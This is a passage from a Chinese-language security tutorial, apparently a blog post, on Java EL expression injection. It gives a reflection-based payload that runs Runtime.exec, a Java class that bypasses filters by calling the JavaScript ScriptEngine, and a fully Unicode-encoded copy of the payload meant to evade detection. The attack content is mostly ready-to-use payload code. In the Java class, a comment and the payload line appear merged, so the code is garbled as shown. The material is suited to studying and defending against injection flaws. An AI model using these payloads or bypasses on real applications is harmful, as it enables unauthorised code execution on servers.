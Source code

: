 ![img](https://drun1baby.top/2022/09/23/Java-%E4%B9%8B-EL-%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5/Exec.png)

## 0x06 EL 表达式的 EXP 与基础绕过

### 基础 EXP

JAVA

```
"${''.getClass().forName('java.lang.Runtime').getMethod('exec',''.getClass()).invoke(''.getClass().forName('java.lang.Runtime').getMethod('getRuntime').invoke(null),'calc.exe')}"
```

### 利用 ScriptEngine 调用 JS 引擎绕过

同 SpEL 注入中讲到的

**ScriptEngineExec.java**

JAVA

```
package drunkbaby.basicelvul;  
  
import de.odysseus.el.ExpressionFactoryImpl;  
import de.odysseus.el.util.SimpleContext;  
  
import javax.el.ExpressionFactory;  
import javax.el.ValueExpression;  
  
public class ScriptEngineExec {  
    public static void main(String[] args) {  
        ExpressionFactory expressionFactory = new ExpressionFactoryImpl();  
        SimpleContext simpleContext = new SimpleContext();  
        // failed  
 // String exp = "${''.getClass().forName('java.lang.Runtime').getRuntime().exec('calc')}"; // ok String exp = "${''.getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"java.lang.Runtime.getRuntime().exec('Calc.exe')\")}\n" +  
                " ";  
        ValueExpression valueExpression = expressionFactory.createValueExpression(simpleContext, exp, String.class);  
        System.out.println(valueExpression.getValue(simpleContext));  
    }  
}
```

### 利用 Unicode 编码绕过

对可利用的 PoC 进行全部或部分的 Unicode 编码都是 OK 的：

```
// Unicode编码内容为前面反射调用的PoC
\u0024\u007b\u0027\u0027\u002e\u0067\u0065\u0074\u0043\u006c\u0061\u0073\u0073\u0028\u0029\u002e\u0066\u006f\u0072\u004e\u0061\u006d\u0065\u0028\u0027\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0052\u0075\u006e\u0074\u0069\u006d\u0065\u0027\u0029\u002e\u0067\u0065\u0074\u004d\u0065\u0074\u0068\u006f\u0064\u0028\u0027\u0065\u0078\u0065\u0063\u0027\u002c\u0027\u0027\u002e\u0067\u0065\u0074\u0043\u006c\u0061\u0073\u0073\u0028\u0029\u0029\u002e\u0069\u006e\u0076\u006f\u006b\u0065\u0028\u0027\u0027\u002e\u0067\u0065\u0074\u0043\u006c\u0061\u0073\u0073\u0028\u0029\u002e\u0066\u006f\u0072\u004e\u0061\u006d\u0065\u0028\u0027\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0052\u0075\u006e\u0074\u0069\u006d\u0065\u0027\u0029\u002e\u0067\u0065\u0074\u004d\u0065\u0074\u0068\u006f\u0064\u0028\u0027\u0067\u0065\u0074\u0052\u0075\u006e\u0074\u0069\u006d\u0065\u0027\u0029\u002e\u0069\u006e\u0076\u006f\u006b\u0065\u0028\u006e\u0075\u006c\u006c\u0029\u002c\u0027\u0063\u0061\u006c\u0063\u002e\u0065\u0078\u0065\u0027\u0029\u007d
```
